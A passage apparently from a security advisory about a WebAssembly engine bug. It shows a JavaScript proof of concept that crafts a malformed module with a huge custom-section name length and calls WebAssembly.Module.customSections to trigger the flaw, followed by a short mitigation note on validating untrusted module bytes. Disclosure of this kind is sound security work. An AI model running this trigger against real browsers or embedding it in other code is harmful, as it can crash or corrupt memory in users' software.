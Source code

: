 print("Filling...");
buffer.fill(0x41);

print("Setting up array buffer");
// Magic
buffer.set([0x00, 0x61, 0x73, 0x6D], 0);
// Version
buffer.set([0x01, 0x00, 0x00, 0x00], 4);
// kUnknownSection (0)
buffer.set([0], 8);
// Section length
buffer.set([0x80, 0x80, 0x80, 0x80, 0x00],  9); 
// Name length
buffer.set([0xDE, 0xFF, 0xFF, 0x7F], 14); 

print("Parsing module...");
var m = new WebAssembly.Module(buffer);

print("Triggering!");
var c = WebAssembly.Module.customSections(m, "A".repeat(string_len + 1));

===============================================================================


Mitigation
----------
Values read from untrusted WebAssembly module bytes should be properly validated to ensure that they are correct and appropriate.


